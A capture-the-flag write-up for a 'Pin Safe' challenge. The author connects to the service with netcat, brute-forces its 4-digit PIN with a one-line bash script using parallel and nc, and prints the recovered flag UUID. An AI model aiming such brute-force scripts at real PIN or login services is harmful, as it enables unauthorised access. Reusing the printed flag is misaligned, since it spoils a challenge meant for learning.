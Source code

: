 # Pin Safe

## Introduction
```
This is a programming challenge that involves getting pin statements
```

## Goal
```
The goal of this challenge is to get the pin
```

## Flag Format
`UUID`

## Writeup

When we start the provided service we get an IP and a port to connect to. <br/>
```sh
kali@kali nc 152.96.7.10 1337

Main Menu
--------------
1) change pin
2) exit
choose option:
1
enter new pin [4 digit]:
1234
enter old pin [4 digit]:
0000
wrong pin!
``` 

Now getting this reponse it seems like we need to bruteforce a 4 digit PIN. <br/>
Knowing this I coded a small bash script to bruteforce. <br/>
```sh
#!/bin/bash

parallel -j 10 'echo "Try: {}"; echo -e "1\n0000\n{}" | nc [IP] 1337' ::: {0000..9999}
```

I than piped the output into a file. <br/>
```sh
kali@kali bash script.sh > output.txt
```

Watching the output file untill we get the pin. <br/>
```sh
kali@kali watch grep -n "changed" out

40865:pin changed to:
```

Having the line in which something unexpected occured I took a look. <br/>
```sh
cat output.txt | head -n 40870 | tail -n 40860

Main Menu
--------------
1) change pin
2) exit
choose option:
enter new pin [4 digit]:
enter old pin [4 digit]:
pin changed to:
0000
Here is your flag:
445c9fdc-2032-488b-8802-973aa3e0765c

Try 3716
```

This concludes the writeup.
